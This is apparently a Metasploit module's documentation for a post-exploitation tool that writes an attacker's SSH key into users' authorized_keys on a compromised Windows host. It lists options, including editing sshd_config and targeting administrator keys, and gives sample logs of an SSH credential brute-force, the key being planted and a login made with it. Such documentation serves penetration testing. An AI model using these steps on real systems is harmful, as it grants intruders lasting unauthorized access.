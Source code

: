 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use post/windows/manage/sshkey_persistence`
  4. Do: `set session #`
  5. Optional Do: `set USERNAME`
  6. Optional Do: `set SSHD_CONFIG`
  7. Do: `run`


## Options

  **SSHD_CONFIG**

  Location of the sshd_config file on the remote system.
  We use this to determine if the authorized_keys file location has changed on the system.
  If it hasn't, we default to .ssh/authorized_keys

  **USERNAME**

  If set, we only write our key to this user.  If not, we'll write to all users

  **PUBKEY**

  A public key to use.  If not provided, a pub/priv key pair is generated automatically

  **ADMIN_KEY_FILE**

  Location of public keys for Administrator level accounts

  **ADMIN**

  Add public keys for gaining access to Administrator level accounts

  **EDIT_CONFIG**

  Allow the module to edit the sshd_config to enable public key authentication

## Scenarios

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),
    46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic
    #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set SESSION 1
    SESSION => 1
    msf post(sshkey_persistence) > set CREATESSHFOLDER true
    CreateSSHFolder => true    
    msf post(windows/manage/sshkey_persistence) > run
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [+] Storing new private key as /Users/dwelch/.msf4/loot/20200205161837_default_172.16.128.153_id_rsa_706898.txt
    [*] Adding key to C:\Users\Dean Welch\.ssh\authorized_keys
    [+] Key Added
    [*] Adding key to C:\Users\testAccount\.ssh\authorized_keys
    [+] Key Added
    [*] Post module execution completed

Verify our access works

    ssh -i /Users/dwelch/.msf4/loot/20200205153101_default_172.16.128.153_id_rsa_457054.txt testAccount@172.16.128.153
    
    Microsoft Windows [Version 10.0.18362.592]
    (c) 2019 Microsoft Corporation. All rights reserved.
    
    testaccount@DESKTOP-V8L6UUD C:\Users\testAccount>

